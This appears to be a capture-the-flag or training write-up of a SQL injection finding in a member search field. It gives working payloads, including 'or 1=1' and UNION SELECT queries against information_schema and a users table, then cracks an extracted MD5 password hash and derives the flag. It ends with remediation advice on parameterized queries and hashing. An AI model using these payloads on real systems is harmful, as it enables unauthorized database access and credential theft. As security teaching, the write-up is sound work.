 # Finding 07 - SQL injection on member searching input field

## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=>" Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection 					vulnerability to SQL injection

## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from a SQL database. The last one being :

```
ID: 1 or 1 =1  
First name: Flag
Surname : GetThe
```
Ok, so that's already quite interesting!


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users```
which yields the same result as the basic SQL injection try.


From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users```
which yields :
```
ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
First name: 5
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users```
which yields :
```
ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
First name: 42
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good 
```

The countersign/surname is probably hashed with md5, as this is the previously encountered hashing algorithm.
Let's verify it with the following website:
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
FortyTwo
Let's convert it to lower case and encrypt it with sha256:
echo -n "FortyTwo" | tr '[:upper:]' '[:lower:]' | sha256sum | awk '{print $1}'
The flag is:
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Remediation

Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.

## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068